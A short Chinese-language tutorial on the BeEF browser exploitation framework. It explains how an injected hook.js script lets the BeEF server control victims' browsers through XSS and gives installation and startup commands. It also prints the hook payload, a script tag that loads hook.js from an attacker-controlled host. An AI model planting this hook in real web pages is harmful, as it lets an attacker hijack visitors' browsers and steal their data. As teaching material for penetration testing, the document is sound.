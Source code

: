 #### 社会工程

#### 渗透攻击

BeEF，全称`The Browser Exploitation Framework`，是一款针对浏览器的渗透测试工具。 

用Ruby语言开发的，Kali中默认安装的一个模块，用于实现对XSS漏洞的攻击和利用。

BeEF主要是往网页中插入一段名为hook.js的JS脚本代码，如果浏览器访问了有hook.js(钩子)的页面，就会被hook(勾住)，勾连的浏览器会执行初始代码返回一些信息，接着目标主机会每隔一段时间（默认为1秒）就会向BeEF服务器发送一个请求，询问是否有新的代码需要执行。

BeEF服务器本质上就像一个Web应用，被分为**前端**和**后端**。

前端会轮询后端是否有新的数据需要更新，同时前端也可以向后端发送指示， BeEF持有者可以通过浏览器来登录 BeEF 的后端，来控制前端(用户的浏览器)。BeEF一般和XSS漏洞结合使用。

### BEEF基础

#### **启动**Apache

kali中启动`apache`和`BEEF` 

```bash
service apache2 start 
```

#### 安装BEEF

##### apt

```bash
apt-get install beef-xss
```

##### github

```bash
git clone https://github.com/beefproject/beef
cd beef
./install 
./beef 
```

#### 启动beef 

```
beef-xss
```



```bash
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]   Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>
```

或者命令行启动 

```bash
service beef-xss start
service beef-xss status
```
